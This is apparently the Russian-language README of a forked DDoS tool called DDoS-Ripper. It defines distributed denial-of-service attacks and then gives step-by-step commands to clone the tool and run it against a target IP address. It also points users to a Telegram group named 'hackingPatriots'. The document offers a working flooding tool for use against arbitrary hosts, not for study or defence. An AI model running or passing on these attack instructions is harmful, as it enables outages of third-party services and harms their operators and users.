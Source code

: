 # DDOS Атаки

# Что такое DDOS атака?
DDOS атака - распределённая атака типа "отказа обслуживания". Она нейтрализует цели или соединённую инфраструктуру потоком Интернет трафика.

DDOS атаки становятся эффективнее используя несколько компьютерных систем как источник атак трафиком. Поисковые системы могут включать компьютеры и другие сетевые ресурсы, например IoT устройства.  
Грубо говоря, DDOS атака что-то вроде неожиданной пробки на трассе, которая препятствует важным автомобилям доехать до точки назначения

## ВНИМАНИЕ - пожалуйста, удостоверьтесь, что установили python3 и Telegram Desktop
Telegram Desktop необходим для подключения к прокси Telegram, т.е. VPN использовать не обязательно. 
** Свои данные авторизации вводить нигде не надо!!! ** 

Cкачать Telegram Desktop: https://desktop.telegram.org
Для Mac OS скачивать с сайта, не с App Store!

## Использование
`git clone https://github.com/palahsu/DDoS-Ripper`
`cd DDoS-Ripper`

## Для Windows
`python DRipper.py -s [ip Address] -t 135`
`Пример: python DRipper.py -s 0.00.00.00 -t 135`

## Для MacOS
`python3 DRipper.py -s [ip Address] -t 135`
`Пример: python DRipper.py -s 0.00.00.00 -t 135`

# Изменено @cybers0ldier01

С любыми предложениями или вопросами обращаться в группу в Телеграмме:

<a href="https://t.me/hackingPatriots"><img src="https://img.shields.io/badge/Telegram-Group%20Telegram%20Join-blue.svg?logo=telegram"></a>
